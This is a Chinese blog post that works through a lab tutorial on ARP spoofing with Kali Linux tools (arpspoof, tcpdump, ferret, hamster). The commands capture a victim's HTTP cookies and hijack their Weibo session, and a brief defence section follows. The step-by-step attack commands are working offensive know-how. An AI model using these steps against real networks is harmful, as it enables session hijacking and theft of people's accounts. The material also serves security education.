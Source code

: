 ```yaml
---
layout:     post
title:      "局域网攻击之 ARP 欺骗"
subtitle:   "使用 Kali Linux 下的 arpspoof, tcpdump, ferret, hamster 通过 ARP 攻击实现 Cookie 劫持"
date:       2016-06-23 21:32 +0800
author:     "gsfish"
header-img: "img/post-bg-kali.jpg"
tags:
    - 渗透
    - 内网
---
```



**基本环境**

```
网关：  
192.168.1.1  
 
攻击者：  
IP: 192.168.1.110  
OS: Kali Linux (VirtualBox)  

靶机：  
IP: 192.168.1.105  
OS: Windows 10  
```

---

## 0x00 说下思路

- 首先通过 ARP 欺骗使靶机与网关间的数据包经由攻击者主机转发
- 等待目标用户进行登陆操作，抓取 HTTP 数据包
- 解析所抓取的数据包，并提取出 Cookie
- 将 Cookie 导入浏览器，从而实现劫持目标用户的会话

---

## 0x01 事前准备

#### 一、安装 ferret

除 ferret 的其他 3 个工具已经集成在 Kali 中了，我们要自行安装 ferret（64 位 Kali 需要增加对 32 位程序的支持才能在源中找到它）。这个工具连同 hamster 是由一个叫 [Robert Graham](https://github.com/robertdavidgraham) 的黑客开发的。

1) 增加对 32 位程序的支持

`root@kali:~# dpkg --add-architecture i386`

2) 更新源

`root@kali:~# apt-get update`

3) 安装

`root@kali:~# apt-get install ferret-sidejack`

#### 二、开启 IP 转发

使用 arpspoof 进行 ARP 欺骗前需要开启本机的 IP 转发（这个临时的，重启后会失效），不然目标用户在攻击期间会无法上网，从而起疑。

`root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward`

---

## 0x02 作战开始

#### 一、进行 ARP 欺骗

`root@kali:~# arpspoof -i eth0 -t 192.168.1.105 192.168.1.1`

![01.png](/img/lan-attack-cookie-hijack/01.png)

`root@kali:~# arpspoof -i eth0 -t 192.168.1.1 192.168.1.105`

![02.png](/img/lan-attack-cookie-hijack/02.png)

> 参数解释  
> **-i**    所用的网卡设备名  
> **-t**    攻击目标的 IP（由于是单向的，所以需要开启两个）

这两个窗口在攻击过程中要一直保持。然后进入靶机，打开命令提示符。

`WIN + R` 输入 `cmd`

在靶机中看一下效果。

`C:\Users\gsfish>arp -a`

> 参数解释  
> **-a**    通过询问当前协议数据，显示当前 ARP 项

![03.png](/img/lan-attack-cookie-hijack/03.png)

Bingo~ 可以看到 ARP 缓存表中网关的 MAC 已经变成攻击者的了，取得初步胜利~

#### 二、抓取 HTTP 数据包

`root@kali:~# tcpdump -i eth0 tcp port 80 and host 192.168.1.105 -w cookie.cap`

> 参数解释  
> **-i**    所用的网卡设备名  
> **-w**    生成数据包的名称  
> **tcp port 80 and host 192.168.1.105**    抓取通过 192.168.1.105:80 的数据包

等待目标用户登陆网站或访问任何登陆后的页面，于是就可以抓到含有 Cookie 的 HTTP 数据包了。过一段时间后停止抓取（这只能抓取 HTTP 流量，如果网站启用了 HTTPS 就需要采用新的姿势了，例如 SSLstrip）。

![04.png](/img/lan-attack-cookie-hijack/04.png)

在家目录下会生成一个 `cookie.cap` 文件，这就是我们一直在抓的数据包了。然而现在我们还看不懂其中的内容，需要用 ferret 来解析一下。

#### 三、解析 cookie.cap

`root@kali:~# ferret -r cookie.cap`

> 参数解释  
> **-r**    读取数据包并将其解析，生成 hamster.txt  
> **-i**    所用的网卡设备名（其实 ferret 也有抓包的功能）

![05.png](/img/lan-attack-cookie-hijack/05.png)

此时数据包中的内容已被解析并保存到了家目录中的 `hamster.txt`。

#### 四、加载 Cookie，模拟登陆

`root@kali:~# hamster`

hamster 是一个十分高效的工具，直接输入命令即可打开。虽然 Firefox 的一些插件自定义 Cookie，但 hamster 能很方便地把我们生成的 `hamster.txt` 中的 Cookie 信息自动导入到浏览器中。

![06.png](/img/lan-attack-cookie-hijack/06.png)

打开浏览器，设置代理为 `127.0.0.1`，端口 `1234`。

![07.png](/img/lan-attack-cookie-hijack/07.png)

在地址栏输入 `127.0.0.1:1234`。点击 `192.168.1.105`，接着出现以下页面。

![08.png](/img/lan-attack-cookie-hijack/08.png)

在左侧栏我们看到了 `http://weibo.com/...`。嘿嘿嘿，点击链接，成功利用目标用户的 Cookie 登陆器其新浪微博。把这个地址复制到地址栏后就可以正常使用其微博的所有功能啦。

![09.png](/img/lan-attack-cookie-hijack/09.png)

---

## 0x03 关于防范

如果你平时大部分时间使用的都是公共网络，而你的身边恰好有人喜欢搞过安全，那就别浏览那些比较私密的东西啦。同时这也告诉我们，最好不要使用机场、餐厅这些公共场合的 WIFI 进行一些登陆的操作（除非使用了 VPN 或者 Tor）。

关于 ARP 攻击的防范方面，主机和路由器都需要进行相关设置的。路由器要在管理页面设置 MAC 绑定，而主机方面可以通过 `arp -s` 这个命令将网关的 IP 与 MAC 进行绑定。

同学 [@yungkcx](https://github.com/yungkcx) 刚好写了一篇相关的博客，在此安利一波：

[An ARP Attack](https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html)


## 参考资料

* [『局域网安全』利用ARP欺骗劫持Cookie](http://www.cnblogs.com/anka9080/p/arpspoof.html)
